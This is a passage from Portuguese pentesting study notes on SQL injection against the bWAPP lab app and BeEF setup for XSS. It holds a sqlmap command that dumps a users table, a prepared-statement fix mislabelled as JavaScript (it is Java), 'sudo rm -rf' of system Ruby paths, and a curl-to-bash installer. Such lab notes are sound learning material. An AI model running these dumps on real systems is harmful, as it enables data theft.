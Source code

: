 - Descobrimos uma tabela chamada users. Agora, acrescente a flag <strong>--dump -T users. Acessamos os dados de usuários do sistema! E ainda conseguimos quebrar os hashs.

    ```bash
                sqlmap -u "http://10.0.2.5/bWAPP?sqli_1.php/title=teste&action=search" --proxy="http://127.0.0.1:8080" --cookie="PHPSESSID=alsjdbasjdnalsjfaabdjASBDJKABSD; 
                security_level=0" --dump -T users -D bwapp
    ```

- Prevenção: Como evitar este ataque, no desenvolvimento da aplicação? Vamos ver como seria em JavaScript. Bastaria que nós separássemos os códigos da query SQL. Para isso, em JavaScript utilizaremos:

    ```javascript
    PreparedStatement stmt = connection.prepareStatement(sql);
    stmt.setString(​1​,usuario);
    stmt.setString(​2​,senha);
    stmt.execute();
    ```

## XSS injection

- instalação e configuração do beef. Beef é uma ferramenta de exploração de injeção de XSS.

  ```bash
  git clone https://gitlab.com/kalilinux/packages/beef-xss.git
  ```

  caso haja problema com ruby, tentar instalar o rvm com os comandos abaixo:

  ```bash
  sudo apt-get autoremove  
  ```

  ```bash
  sudo rm -rf /usr/local/lib/ruby
  sudo rm -rf /usr/lib/ruby
  sudo rm -f /usr/local/bin/ruby
  sudo rm -f /usr/bin/ruby
  sudo rm -f /usr/local/bin/irb
  sudo rm -f /usr/bin/irb
  sudo rm -f /usr/local/bin/gem
  sudo rm -f /usr/bin/gem
  ```

  ```bash
  \curl -L https://get.rvm.io | bash -s -- --ignore-dotfiles --autolibs=0 --ruby
  ```

  ```bash
  source /etc/profile.d/rvm.sh
  ```

  ```bash
  type rvm | head -n 1
  ```

  checando:
